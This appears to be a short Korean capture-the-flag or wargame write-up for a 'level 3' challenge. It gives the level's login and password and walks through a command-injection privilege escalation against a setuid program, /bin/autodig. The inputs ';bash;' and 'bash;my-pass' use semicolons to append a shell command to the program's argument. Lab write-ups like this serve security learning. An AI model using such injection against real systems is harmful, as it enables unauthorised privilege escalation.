





# level 3

* id : `level3`
* pw : `can you fly?`



```
find / -user level4
```



역시나 `/bin/autodig`가 있다.

리눅스에서 명령어는 C언어처럼 `;`로 끝난다.

해당 소스를 보면 간단하게 문자열을 더해서 고대로 쉘처럼 실행하는 프로그램이므로

`;`를 이용해 뒤에 bash 쉘을 추가로 실행하게끔 하면 된다.

```
/bin/autodig ";bash;"
```



물론 다른방법도 있다. 

```
/bin/autodig "bash;my-pass"
```

